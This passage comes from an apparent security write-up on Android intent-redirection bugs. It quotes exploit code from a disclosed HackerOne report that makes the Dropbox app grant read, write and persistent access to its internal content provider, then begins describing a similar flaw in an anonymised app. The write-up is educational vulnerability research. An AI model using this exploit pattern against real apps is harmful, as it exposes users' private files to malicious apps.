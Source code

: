 ### Example

Again, to understand the above theory properly, see [this report](https://hackerone.com/reports/272044) by [@bagipro](https://twitter.com/_bagipro). The following exploit code was used:

```java
        Intent next = new Intent();
        next.setClassName(getPackageName(), "com.dropbox.android.activity.CameraUploadSettingsActivity");
        next.setData(Uri.parse("content://com.dropbox.android.LocalFile/smth"));
        next.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
                | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);

        Intent intent = new Intent();
        intent.setClassName("com.dropbox.android", "com.dropbox.android.activity.LoginOrNewAcctActivity");
        intent.putExtra("com.dropbox.activity.extra.NEXT_INTENT", next);
        startActivity(intent);
```

Basically the `com.dropbox.android.activity.LoginOrNewAcctActivity` was starting any component given to it in the extra called `com.dropbox.activity.extra.NEXT_INTENT`. So in the exploit a URL to an internal `content` provider is given. Along with 4 another flags.

- `Intent.FLAG_GRANT_READ_URI_PERMISSION` -> Give permission to do read operation on the provider
- `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` -> Give permission to do write operation on provider
- `Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION` -> Permission to maintain persistent access to the provider.
- `Intent.FLAG_GRANT_PREFIX_URI_PERMISSION` -> Access all the data under that provider instead of just acessing singular file/data source.

# A bug I found

So I found a similar bug in an app, let's call it `com.vulnerable.app`. 

Basically this app had only two exported activities:
- `com.vulnerable.app.startActivity`
    - Responsible for starting the app since it was under the `android.intent.category.LAUNCHER` category.
- `com.vulnerable.app.shareactivity`
    - Responsible for sending files or other attachments.

I went through the code of the `startActivity` but didn't notice anything interesting. The `onCreate` function of the app had nothing interesting in it. The same was the case with the `shareactivity`. They had the correct checks in place to stop any malicious app from using the shareactivity to steal any file. But when I was going through the code I noticed a very interesting function.

```java
    private void proceed(long id) {
        Intent intent = new Intent(App.getContext(), startActivity.class);
        intent.setAction("forward_action");
        intent.putExtra("forward_to", <UNEXPORTED_COMPONENT_NAME_HERE>.class.getName());
        intent.putExtra("id", id);
        startActivity(intent);
        finish();
    }
```

